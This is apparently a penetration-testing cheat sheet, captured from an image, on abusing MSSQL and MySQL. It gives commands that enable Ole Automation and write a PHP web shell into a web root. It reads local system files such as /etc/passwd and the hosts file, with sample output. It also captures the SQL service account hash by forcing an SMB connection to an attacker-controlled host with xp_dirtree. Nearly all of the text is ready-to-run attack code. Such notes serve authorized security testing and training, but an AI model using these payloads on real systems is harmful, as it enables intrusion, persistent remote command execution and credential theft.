 **MSSQL - Enable Ole Automation Procedures to Write Local Files**

```
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

**MSSQL - Create a File**

```
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

### **Read Local Files**

**MSSQL -** **Read Local Files** 

```
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

**MySQL - Read Local Files** 

```
 mysql> select LOAD_FILE("/etc/passwd");
+--------------------------+
| LOAD_FILE("/etc/passwd")
+--------------------------------------------------+
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

### **Capture MSSQL Service Hash**

To make this work, we need first to start Responder or impacket-smbserver and execute one of the following SQL queries:

**XP_DIRTREE Hash Stealing**

```
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```
